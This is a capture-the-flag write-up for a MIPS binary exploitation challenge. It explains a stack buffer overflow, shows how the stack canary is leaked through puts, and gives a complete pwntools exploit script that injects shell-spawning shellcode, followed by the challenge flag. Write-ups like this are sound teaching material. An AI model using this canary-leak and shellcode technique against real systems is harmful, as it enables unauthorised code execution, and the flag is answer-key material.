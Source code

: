 # No Risc, No Future

## baby-pwn - Points: 215

> We use microcontrollers to automate and conserve energy. IoT and stuff. Most of them don't use CISC architectures.
>
> Let's start learning another architecture today!
>
> [Download challenge files](no_risc_no_future_e06100f3fc1847eb06ed06749beeae25.zip)
>
> [Download challenge files including docker setup](no_risc_no_future_7cb1ade0963d2236d1cf6e58750be043.zip)

You were given a ELF 32-bit MIPS executable and `QEMU` binary that lets you easily run the program.

Running `checksec no_risc_no_future` shows the enabled security mechanisms:

	Arch:     mips-32-little
	RELRO:    Partial RELRO
	Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

Only stack canaries are enabled and since `NX` is disabled we have `RWX` segments what allows us to execute shellcode on the stack, if we find a buffer overflow.

Decompiling the MIPS binary in `Ghidra` shows what it is essentially doing:

```c
undefined4 main(void)
{
  int iStack80;
  char acStack76 [64];
  int iStack12;
  
  iStack12 = __stack_chk_guard;
  iStack80 = 0;
  while (iStack80 < 10) {
    read(0,acStack76,0x100);
    puts(acStack76);
    iStack80 = iStack80 + 1;
  }
  if (iStack12 != __stack_chk_guard) {
    __stack_chk_fail();
  }
  return 0;
}
```

The program `read`s up to 0x100 characters from `stdin` and prints that data out by using `puts`. This is repeated 10 times in the loop. Since the destination buffer for the input has only 64 characters size, we have a buffer overflow. To get code execution we can overwrite the `RIP` but since stack canaries are enabled, we have to leak that value before.

Stack canary values end with zero bytes what makes it more difficult to read them, since most functions stop at zero bytes because they identify the end of string.

The stack canary variable `__stack_chk_guard` lies in the memory right after the buffer for our input and `puts` will read the buffer till it encounters a zero byte. So if we overwrite the buffer, we would corrupt the canary value, but can overwrite that zero byte, so that `puts` will print out our buffer and the canary value! Since `read` terminates our input with `\xa0` (linefeed) we can fill the buffer with 64 bytes, and the linefeed will overwrite the zero byte of the canary value.

We have now bypassed the stack canary protection and can in the next turn completely overwrite the buffer and modify the `RIP` to jump right behind it where we place our shellcode. I debugged the binary in `gdb` and found `0x7ffffd40` as good address to jump to. MIPS shellcode generated with `shellcraft` worked quite good, I only had to add some `NOP`s before it.  

The full exploit code looks like this:

```python
from pwn import *


context.arch = 'mips'

shellcode = asm(shellcraft.mips.linux.sh())

# p = remote('localhost', 1338)
p = remote('noriscnofuture.forfuture.fluxfingers.net', 1338)

p.sendline('A'*64)
p.recvuntil('\n')

canary = u32('\x00'+p.recv(3))
p.recv(1)
log.info('canary: {}'.format(hex(canary)))

p.sendline('A'*64+p32(canary)+'A'*4+p32(0x7ffffd40)+'\x00'*16+shellcode)

for i in range(8):
	p.sendline('')
	p.recvuntil('\n\n')

p.interactive()
```

flag: `flag{indeed_there_will_be_no_future_without_risc}`